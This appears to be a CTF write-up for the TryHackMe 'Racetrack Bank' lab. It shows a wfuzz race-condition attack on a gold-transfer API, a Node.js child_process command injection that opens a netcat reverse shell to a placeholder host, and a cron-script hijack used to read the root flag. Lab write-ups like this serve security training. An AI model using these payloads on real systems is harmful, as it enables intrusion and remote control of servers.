 ```yaml
---
layout: post
title: Racetrack Bank | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-11 18:42:53 +0800'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```

- [Racetrack Bank](#racetrack-bank)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Reverse shell](#reverse-shell)
- [Flags](#flags)

<!-- toc -->


### Racetrack Bank
Hallå gubbar, this one is a lil bit difficult but hey we can do it specially if you want to learn more and practice on race condition vulnerabilities ... check the box  Racetrack Bank

### Enumeration


After we scan using Nmap we found 80 port open = http

```sh
http:/ip-box:80
```




then it will redirect you to the login page
we found other 2 pages 
give gold ( to send gold to other users) / purchase (buy premium ) 





We also have 1 gold ....

Nothing else so what we need to do is find out the premium features but how is that ?

Drom the description and title of the box is possible to say that there's race conditions vulnerabilities 

so let fuzz it!!

### Exploitation

How ?
we need to fuzz and send multi requests to transfer gold from an account to an other 
Result:
Farming gold 

What we need ?

1. Creating accounts
2. Cookies id tag
3. Loop requests
4. Buy premium


i will try to make it easy for you 

1. create account ( test22 ) also create an other account in private tab (test99)

we need to intercept the gold transfer request using BURPYYY...


2. Now we got cookie id tag (request)

3. Loop requests in this case we will use wfuzz 

but first create txt file and each line should have number 1 ( 1 gold remember ) and you should have 20 000 line 

" Dont worry i said i will make it easy for you "

https://pastebin.com/MxnwWnWG

 command :
 
```sh
wfuzz -w /root/Desktop/gold.txt -u http://Box-ip/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "Cookie ID" -d "user=test99&amount=FUZZ"
```


| Options      | Meaning       |
| ------------- |:-------------:|
|-w| wordlist|
|-u| url|
|-H |header|
|-b |cookie|
|-d |postdata |

So don't waste too much time going back from an account t oan other 

just once you reach 600 gold change 1 gold to 6 gold in text file 

also send gold from account test22 to test99 

also send back 600 from test99 without fuzzing it 

then go back to test22 and fuzz it again 

4. so in 3 steps you will have more 10k gold enough to buy premium !



### Reverse shell

To be frank i tried many injections command but nothing worked until checked source code (node.js)

so just google node.js reverse shell


```sh
http://Ip-box/premuimfeatures.html?ans=require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR-IP PORT >/tmp/f')
```

voila!




### Flags

we got the user flag :
```sh
~$ cat  user.txt
```
Now we need to privesc to root but i'm lazy specially late nights so just searched for backup files and we find 
```sh/cleanup/```file called ```cleanupscript.sh``` that runs every minute.

So we can optin to get second reverse shell as root or copy and output root flag
 
so you either 
```sh 
rm cleanupscript.sh
```  
or
```sh
mv cleanupscript.sh > cleanupscript.sh.backup ( check dogcat room similar)
```

then
```sh
echo 'cat /root/root.txt > /home/brian/root_flag.txt' > cleanupscript.sh
```
```sh
chmod 777 cleanupscript.sh
```

Run it and wait 1 min then check for for output


See you next time ......


